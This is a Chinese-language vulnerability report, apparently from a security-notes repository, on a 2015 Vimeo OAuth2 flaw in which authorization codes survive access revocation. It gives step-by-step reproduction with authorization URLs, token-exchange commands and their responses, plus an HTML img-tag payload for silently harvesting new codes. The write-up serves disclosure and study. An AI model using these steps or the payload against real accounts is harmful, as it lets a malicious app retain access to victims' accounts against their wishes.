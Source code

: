 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


类型: OAuth API.

![img_8.png](img_8.png)

![img_9.png](img_9.png)

`getAccessToken.sh`
![img_12.png](img_12.png)

`me.sh`
![img_11.png](img_11.png)

`URL GET/POST data: POST METHOD:`

`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

## 漏洞描述
OAuth2 API允许用户将访问他们账户的权限授予第三方应用程序。当然，用户能够管理此类应用程序对其帐户的访问，并可能拒绝任何应用程序的访问。当某些用户拒绝对应用程序的访问时，所有的access_token都将被撤销并变得无效。但是不仅access_tokens应该被撤销，授权码(它是OAuth2授权流中使用的中间令牌)也必须被撤销。
在撤销访问时，Vimeo OAuth2 API没有撤销其授权代码。它可能被利用恢复访问用户帐户后，恶意应用程序撤销访问。

## 复现步骤
1)打开应用的OAuth2授权链接; <br>
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


2)登录您的Vimeo帐户(如果需要的话)，点击允许;

3)从回调url复制code值，例如: <br>
`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

这里code值为`e1fa87cd449ae55b74445b31ac79450c14eeb657`

4)使用code值获取access_token:  <br>
```shell
$ ./getAccessToken.sh e1fa87cd449ae55b74445b31ac79450c14eeb657

{ 
  "access_token": "d3ac3bb53d1c4ebc3de7d28e4ed801c0", 
  "token_type": "bearer", 
  "scope": "public private", 
  "user": { 
    "uri": "/users/39285903",
    <... CUT OUT ... >
    }

```

5)检查access_token的有效性
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:10:29 GMTServer: nginxContent-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:10:29 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1239-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429625429.334602,VS0,VE203Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",< ... CUT OUT ... >}

```

6)重复步骤1中我的测试申请链接:
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`

7)重复步骤2登录到你自己的帐户(如果需要)，然后单击允许。

注意:不难想象应用程序需要用户再通过一次身份验证。许多应用程序不存储长期会话，而是强迫用户每天甚至经常登录/授权。

注2:OAuth提供程序通常允许使用`approval_prompt=auto`参数，这使得不需要用户再次单击allow。我没有发现这种可能性的Vimeo API，但如果这可能的，在这种情况下，恶意应用程序只需要把它的网站(或每当在互联网)像下面这样的:
```html
<html> 
<img src="https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef">
</html>
```
这样的代码将“静默地”产生新的access_token值，在用户每次加载它时进行回调。


8)从回调url中复制code值并保存以备以后使用:
`https://avuln.com/callback?state=0123456789abcdef&code=82e24f835184f47cd83f249907e7b d5018bf62c9`

code值为`82e24f835184f47cd83f249907e7bd5018bf62c9`

9)进入帐户安全设置`https://vimeo.com/settings/apps`


10)从Apps部分断开应用程序(如果我的测试应用程序使用Dor1s Test1)


11)为了确保访问被拒绝，重复步骤5:
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 401 Authorization Required
Date: Tue, 21 Apr 2015 14:23:55 
GMTServer: nginx
Content-Type: application/vnd.vimeo.error+json
Cache-Control: no-cache, max- age=315360000WWW-Authenticate: Bearer error="invalid_token"Expires: Fri, 18 Apr 2025 14:23:55 GMTContent-Length: 53Accept-Ranges: bytesVia: 1.1 varnishX-Served-By: cache- fra1245-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626235.146346,VS0,VE105Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "error": "A valid user token must be passed."}
```

12)使用步骤8中的code值，并将其交换为access_token:

```shell
$ ./getAccessToken.sh 82e24f835184f47cd83f249907e7bd5018bf62c9

{ 
  "access_token": "9eabdc746910ea39c07395ee1b69a2b9", 
  "token_type": "bearer",
   "scope": "public private",
    "user": { "uri": "/users/39285903",
    <... CUT OUT ...>
    }
```

13)检查access_token的有效性:
```shell
$ ./me.sh 9eabdc746910ea39c07395ee1b69a2b9
HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:25:41 
GMTServer: nginx
Content-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:25:41 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1235-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626341.087757,VS0,VE201Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",<... CUT OUT ...>}
```


## 漏洞影响

该漏洞允许恶意应用程序保持对受害者帐户的访问活动，即使访问已经被撤销。不仅绕过了授权，而且还剥夺了受害者管理应用程序访问的能力。


## 小结

OAuth相关的，后面在继续总结一下;

